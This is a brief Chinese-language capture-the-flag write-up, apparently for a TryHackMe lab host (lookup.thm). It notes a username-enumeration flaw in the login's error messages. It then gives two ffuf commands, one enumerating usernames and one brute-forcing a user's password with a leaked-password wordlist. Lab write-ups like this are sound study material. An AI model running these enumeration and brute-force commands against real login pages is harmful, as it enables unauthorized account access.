



#### 输入ip自动转域名，说明后端有个nginx在反代，需要域名才能访问虚拟主机网站

##### 做个本地dns解析就好了

发现存在用户名时候会返回password error,不存在用户名会返回username or password error,

ffuf爆破用户名字

```bash
ffuf -w /home/neon/Desktop/SecLists/Usernames/top-usernames-shortlist.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=nihaoya' -H "Content-Type: application/x-www-form-urlencoded" -ac
```

出现两个结果


爆破jose密码和admin密码

```bash
ffuf -w /home/neon/Desktop/SecLists/Passwords/Leaked-Databases/rockyou-50.txt -X POST -u http://lookup.thm/login.php -d 'username=jose&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded" -ac
```


访问发现重定向到子域名域名,进行域名解析



存在CVE



环境太老不打了
